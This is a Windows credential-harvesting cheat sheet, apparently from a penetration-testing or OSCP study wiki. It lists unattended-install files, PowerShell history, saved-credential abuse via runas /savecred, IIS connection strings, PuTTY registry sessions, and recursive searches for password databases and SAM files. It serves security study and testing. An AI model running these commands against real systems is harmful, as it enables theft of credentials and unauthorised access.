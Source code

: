 ```yaml
---
description: You could discover credentials in several different locations.
---
```


# Initial Harvesting - Usual Spots

### Unattended Windows Installations

```bash
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

### Powershell History

{% code overflow="wrap" %}
```bash
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
{% endcode %}

### Saved Windows Credentials

```bash
cmdkey /list
runas /savecred /user:<username> cmd.exe
```

### IIS Configuration

{% code overflow="wrap" %}
```bash
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
{% endcode %}

### Retrieve Credentials from Software: PuTTY

```bash
reg query HKEY_CURRENT_USER\Software\<Username>\PuTTY\Sessions\ /f "Proxy" /s
```

### File Mining to find Creds on Windows hosts

{% code overflow="wrap" %}
```bash
PS> Get-ChildItem -Path C:\users -Include *.sam,*.txt,*.ps1,*.log,*.exe,*.kdbx,*.gitconfig,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

PS> Get-ChildItem -Path / -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue  // this one will look for kdbx files which contain a password manager database

PS> Get-ChildItem -Path C:\ -Include backup.* -File -Recurse -ErrorAction SilentlyContinue

# OSCP
PS> Get-ChildItem -Path C:\ -Include local.txt -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include proof.txt -File -Recurse -ErrorAction SilentlyContinue
```
{% endcode %}
